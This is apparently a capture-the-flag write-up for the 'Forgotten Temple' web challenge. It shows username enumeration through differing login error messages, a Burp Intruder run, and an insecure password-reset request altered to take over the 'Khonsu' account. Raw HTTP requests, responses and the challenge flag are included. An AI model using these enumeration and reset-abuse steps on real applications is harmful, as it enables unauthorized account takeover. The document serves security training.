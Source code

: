 # Intro
![](The_Forgotten_Temple.png)

# Information gathering
When entering the user is presented with a login form with some text giving away some hint of credentials ```Anubis``` and  ```deathgod123```.   
![](The_Forgotten_Temple_Login_Form%201.png)

Clicking the button "The Scroll of Gods" downloads a text file named ```usernames.txt``` that contains a list of usernames with one name on each line.  
Part of the list:
```
Anubis
Ra
Osiris
Seth
Horus
Isis
Nephthys
Thoth
Bastet
Sobek
Nut
Geb
Ptah
[...]
```

Checking the source code for the page a hint is displayed
```html
[...]
	<a href="/static/usernames.txt" download>
	    <button class="download-btn">The Scroll of Gods</button>
	</a>
</div>

<!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
	<!-- LOGIN FORM -->
[...]
```

```
The hint:
<!-- Right section: Login + Password Reset (for Anubis) -->
```
This hints says that there is a user called ```Anubis``` which matches the credentials that was found earlier ```Anubis:deathgod123```. The hint also says that the is a password reset function. This could be the point of attack.  

The text on the site: 
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```

Breaking down the text to get further hints
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
```
The Anubis doesn't seem to be the target to get the flag, there is another account, the "true ruler" is probably the account that should be targeted.

```
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```
This parts hints that the name of the account of the "true ruler" is unknown and that there is a way "reset its wards".

It seems that to solve the CTF, an account name for the "true ruler" needs to be uncovered, and the password for that account must be reset.

Entering random username and password into the login form returns a helpful error, "Invalid username"
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=test&password=test
```

```html
 <!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
    <p style="color: red;">Invalid username</p>
    <!-- LOGIN FORM -->
```
This reveals that the user "test" isn't a username that exits in the application.
Repeating the request but with the username that is known to exit, ```Anubis```, reveals that only password is wrong but the app doesn't complains about the username.    
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 34
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=Anubis&password=asdasdasd
```

```html
   <!-- Right section: Login + Password Reset (for Anubis) -->
  <div class="form-section">            
    <p style="color: red;">Incorrect password</p>
        <!-- LOGIN FORM -->   
```

This could be used to find the other valid usernames in the application. This is the way to find the "true ruler"

Using the credentials, a new reset password form appear. Confirming that there is a password reset function.
![](../img/The_Forgotten_Temple_Reset_Pw.png)

Using the account makes this ```POST``` request:
```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```
The body of the request contains the username and the new password. Could this username be changed to reset the password for an another user instead using the ```Anubis``` account? Then The the username for the "true ruler" needs to be uncovered.

# Attack

Using the list of username the Intruder in BurpSuite is a perfect way to find what usernames are valid or which are not. Enter the list of username and add the ```§``` where the name should be put in each request and press start attack. 
![](The_Forgotten_Temple__Setup_Intruder.png)

After running the intruder there are two responses that differs from the others.
- Anubis - which was known to exist
- Khonsu - newly found username

![](The_Forgotten_Temple_Intruder.png)

```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:48046
Content-Length: 34
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:48046
Referer: http://207.154.240.240:48046/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBZI2A.NT22SvflnJDmCyptaGhor_JIF3Y
Connection: keep-alive

username=Khonsu&new_password=pwned
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sat, 03 May 2025 16:49:25 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

Using the newly changed password it's now possible to login in as the user ```Khonsu``` and the flag is displayed.

![](The_Forgotten_Temple_Solved.png)

```Flag: O24{73mp13_53cr37s_Unv31l3d}```